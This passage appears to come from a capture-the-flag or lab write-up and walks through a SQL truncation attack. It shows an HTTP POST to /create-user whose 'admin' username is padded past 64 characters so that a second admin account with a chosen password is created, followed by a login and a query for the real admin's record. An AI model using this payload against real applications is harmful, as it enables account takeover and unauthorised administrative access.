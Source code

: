 Now send POST request with a payload to create a new admin.

```sh
# POST request
POST /create-user HTTP/1.1

# Create another new "admin" with more than 64 characters. Btw, "+" means the spaces.
username=admin+++++++++++++++++++++++++++++++++++++++++++++++++++++++++random&password=password
```

Then check if we can login with a new admin.

```sh
username=admin&password=password
```

Fetch the admin's information with the original password.

```sh
SELECT * FROM users WHERE username='admin';

# It should return the values are the real admin's information.
username = admin
password = <REAL_ADMIN_PASSWORD>
```
